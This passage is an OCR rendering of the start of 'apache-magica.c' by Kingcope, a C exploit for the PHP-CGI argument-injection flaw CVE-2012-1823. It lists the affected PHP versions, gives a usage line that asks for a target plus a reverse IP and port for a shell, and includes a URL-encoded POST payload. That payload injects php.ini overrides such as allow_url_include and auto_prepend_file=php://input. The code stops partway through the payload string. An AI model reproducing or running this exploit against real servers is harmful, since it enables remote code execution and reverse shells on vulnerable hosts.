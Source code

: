 > PHP 5.3.3
> PHP 5.2.17
> PHP 5.2.11
> PHP 5.2.6-3
> PHP 5.2.6+lenny16 with Suhosin-Patch
> Affected versions
> PHP prior to 5.3.12
> PHP prior to 5.4.2
> Unaffected versions
> PHP 4 - getopt parser unexploitable
> PHP 5.3.12 and up
> PHP 5.4.2 and up
> Unaffected versions are patched by CVE-2012-1823.
> */
> /*    .
>      /'\rrq rk
>  .  // \\  .
> .x.//fco\\-|-
>  '//cmtco\\zt
>  //6meqrg.\\tq
> //_________\\'
> EJPGQO
> apache-magica.c by Kingcope
> */
> 
> #include <stdio.h>
> #include <stdlib.h>
> #include <unistd.h>
> #include <getopt.h>
> #include <sys/types.h>
> #include <stddef.h>
> #include <openssl/rand.h>
> #include <openssl/ssl.h>
> #include <openssl/err.h>
> #include <netdb.h>
> #include <sys/socket.h>
> #include <netinet/in.h>
> 
> typedef struct {
>     int sockfd;
>     SSL *handle;
>     SSL_CTX *ctx;
> } connection;
> 
> void usage(char *argv[])
> {
>   printf("usage: %s <--target target> <--port port> <--protocol http|https> "   
>   "<--reverse-ip ip> <--reverse-port port> [--force-interpreter interpreter]\n",
>    argv[0]);
>   exit(1);
> }
> 
> char poststr[] = "POST %s?%%2D%%64+%%61%%6C%%6C%%6F%%77%%5F"   
>  "%%75%%72%%6C%%5F%%69%%6E%%63%%6C%%75%%64%%65%%3D%%6F%%6E+%%2D%%64"   
>  "+%%73%%61%%66%%65%%5F%%6D%%6F%%64%%65%%3D%%6F%%66%%66+%%2D%%64+%%73"   
>  "%%75%%68%%6F%%73%%69%%6E%%2E%%73%%69%%6D%%75%%6C%%61%%74%%69%%6F%%6E"   
>  "%%3D%%6F%%6E+%%2D%%64+%%64%%69%%73%%61%%62%%6C%%65%%5F%%66%%75%%6E%%63"   
>  "%%74%%69%%6F%%6E%%73%%3D%%22%%22+%%2D%%64+%%6F%%70%%65%%6E%%5F%%62"   
>  "%%61%%73%%65%%64%%69%%72%%3D%%6E%%6F%%6E%%65+%%2D%%64+%%61%%75%%74"   
>  "%%6F%%5F%%70%%72%%65%%70%%65%%6E%%64%%5F%%66%%69%%6C%%65%%3D%%70%%68"   
>  "%%70%%3A%%2F%%2F%%69%%6E%%70%%75%%74+%%2D%%64+%%63%%67%%69%%2E%%66%%6F"   
>  "%%72%%63%%65%%5F%%72%%65%%64%%69%%72%%65%%63%%74%%3D%%30+%%2D%%64+%%63"   
>  "%%67%%69%%2E%%72%%65%%64%%69%%72%%65%%63%%74%%5F%%73%%74%%61%%74%%75%%73"   
>  "%%5F%%65%%6E%%76%%3D%%30+%%2D%%6E HTTP/1.1\r\n"   